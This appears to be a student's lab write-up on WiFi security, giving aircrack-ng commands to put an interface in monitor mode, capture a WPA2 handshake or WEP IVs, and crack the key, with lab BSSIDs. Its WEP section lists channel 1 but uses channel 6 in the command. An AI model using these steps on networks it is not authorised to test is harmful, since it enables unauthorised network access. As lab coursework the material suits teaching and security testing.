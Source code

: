# Lab 05 - WiFi Security

## 1 - WP2

BSSID: 00:1C:C2:43:EE:EA


Channel: 1

- Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
- Retrieve the target BSSID: `airodump-ng wlp1s0mon`
- Capture a 4-way handshake: `airodump-ng -c 1 --bssid 00:1C:C2:43:EE:EA -w capture.cap wlp1s0mon`
- Crack the handshake: `aircrack-ng capture.cap-01.cap -w wordlist.txt`

![](img/wpa2.png)

## 2 - WEP

BSSID: 00:12:17:B7:8C:75


Channel: 1

1. Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
2. Capture packets: `airodump-ng -c 6 --bssid 00:12:17:B7:8C:75 -w capture.cap wlp1s0mon`
3. Crack the key after retrieving enough IVs: `aircrack-ng -1 -a 1 -b 00:12:17:B7:8C:75 capture.cap-01.cap`

![](img/wep.png)
